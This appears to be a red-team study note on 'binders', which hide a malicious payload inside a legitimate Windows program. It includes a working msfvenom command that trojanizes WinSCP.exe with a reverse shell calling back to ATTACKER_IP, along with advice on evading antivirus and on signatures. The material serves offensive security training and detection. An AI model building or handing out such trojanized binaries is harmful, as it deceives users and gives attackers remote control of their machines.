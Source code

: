 ```yaml
---
{"dg-publish":true,"permalink":"/cards/red-team/binders-malware-development/","tags":["red-team"]}
---
```


~ [[cards/red-team/Evading Antivirus - Shellcode\|Evading Antivirus - Shellcode]]
### Introduction
---
It applies the concept of trojan malware but still different: it is a tool used to combine a legitimate program (game or utility) with a malicious payload - resulting when the file is run, the legitimate app will launch normally, but the malicious code executes in the background:

![Evading Antivirus - Shellcode-7.png|450](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-7.png)

While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.

Change the entry point in the PE header so that our shell code executes right before the program, in this way, when the user clicks the resulting executable, your shellcode will get silently executed first and continue running the program normally without the user noticing it.

#### Key Topics
---
- [[#Binding with Msfvenom|Inject malicious payloads into legitimate programs using msfvenom’s -x option and create disguised reverse shells.]]
    
- [[#Questions and Problems|Understand execution prerequisites, limitations, and security concerns around binder use, including architecture compatibility and digital signatures.]]

## Binding with Msfvenom
---
The method used by msfvenom injects your malicious program by creating an extra thread for it, slightly different from what was mentioned previously however achieves the same result, this is much better since the legitimate program won't get blocked in case your shellcode fails for some reason.

```C
msfvenom -x Path/to/binary/WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

In this case we are executing WinSCP but in the background it will execute our payload:

![Evading Antivirus - Shellcode-8.png|550](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-8.png)

In our attacker shell:

![Evading Antivirus - Shellcode-9.png](/img/user/cards/red-team/images/Evading%20Antivirus%20-%20Shellcode-9.png)

It wont' help hiding our payload against AV solutions - the main use is to fool the users believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.
### Questions and Problems
---
**Prerequisites or condition in order for binders to work?**

1. **Matching Architecture** Both binder and payload must be the same bitness—x86 or x64—else the injection will fail.
2. **Digital Signatures**
	- **Description**: Binding invalidates code signing unless re-signed, which is rare for malicious use.
	- **Red Team Tip**: If forging a signature, it must be trusted in the target environment.
	- **Blue Team Tip**: Treat unsigned or signature-altered binaries, especially those mimicking trusted software, as highly suspicious.
